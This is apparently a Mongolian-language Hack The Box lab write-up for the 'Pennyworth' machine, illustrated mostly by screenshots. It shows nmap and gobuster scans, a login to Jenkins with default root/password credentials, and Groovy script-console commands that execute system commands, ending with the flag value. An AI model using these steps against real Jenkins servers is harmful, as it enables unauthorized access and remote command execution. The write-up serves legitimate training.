 # Pennyworth - htb machine
----------------------------------
![Screenshot (27)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/d6697f4e-0184-4c71-a9f2-648060be8b93)
#### pennyworth
![Screenshot (28)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/2754e2b6-d8e5-42c0-84af-5ae7fb7ab3bf)

* ip address = 10.129.93.159


![Screenshot (29)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/76bc71f6-77cc-4951-8e06-725f5cec3842)

#### nmap tool ашиглан портуудыг харав 
* nmap -sC -sV 10.129.93.159
* ![Screenshot (26)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/75827b18-34cc-4d5b-81fe-349fed3abcad)
* 8080 дээр web server асаж байсан бөгөөд login user interface тэй байсан
  
  ![Screenshot (30)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/93ab1553-7230-447e-af71-4c34d89d7017)
##### gobuster dir  -u https://10.129.93.159:8080 -w /usr/share/wordlists/dirb/common.txt


![Screenshot (31)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4006e89d-fa72-4201-a961-ec0950a7770f)
#### whatweb командаар веб серверийн дэлгэрэнгүй мэдээллийг олж харсан *Jenkins session 
![Screenshot (32)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/1c25b470-f320-46c7-8635-a824fc628077)
#### Metasploit ашиглаад сэжиг бүхий  Jenkins-CI login Utility байв

___________________________________
![Screenshot (33)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/efddd5c2-8f76-4140-9b53-0299e177e7a6)

#### username: root
    password: password
гээд шалгатал admin эрхээр шууд оров
![Screenshot (34)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4a6e5730-afd3-4415-bb25-939f1e2d68d1)
#### administrator оор нэвтэрсэн тул dashboard гэх зэрэг бүхий бүх эрхийг өөрчилж болох учир Groovy Script гэсэн 'execute command 'бичиж болохоор байв

![Screenshot (36)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/12fc70f7-d85b-40b3-8eeb-c4d01eb4781c)

![Screenshot (39)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/b8246a8d-b098-4201-a3b0-c17aa5018ce7)
* println System.genenv("PATH")
* println "uname -a".execute().text
* ![Screenshot (40)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/e2617c57-b22b-448d-aac6-a4ba47f2b35d)
* уг командыг адилхан оруултал Result хэсэгдээр хэрэглэгчийн сервер GNU/linux -Ubuntu гэж зааж байв
* ![Screenshot (42)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/c98a4a7d-adc2-45bb-814b-215ea8a0f8a5)
* дараагаар uname ийн оронд "whoami" гэж үзтэл root гэдэг утгын буцаасан
* ![Screenshot (43)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/37f8fd65-8b31-4f10-8f90-65688f6a206e)
ls list хийхэд bin boot dev etc lib32
![Screenshot (45)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/4f29c200-57fb-4386-b4cc-23d6827e593b)


![Screenshot (45)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/161a1ce6-c905-42b3-9199-1349e2970a3d)
#####pritln "ls root".execute().text
result flag.txt
snap гэдэг үр дүнг өгч байв


![Screenshot (46)](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/bd255386-d901-4c02-a031-9c9dd9a3e202)
эцэст нь "cat root/flag.txt" болгон өөрчилхөд 9cdfb39c7876e703e308864c917a15 flag өгөв

















  


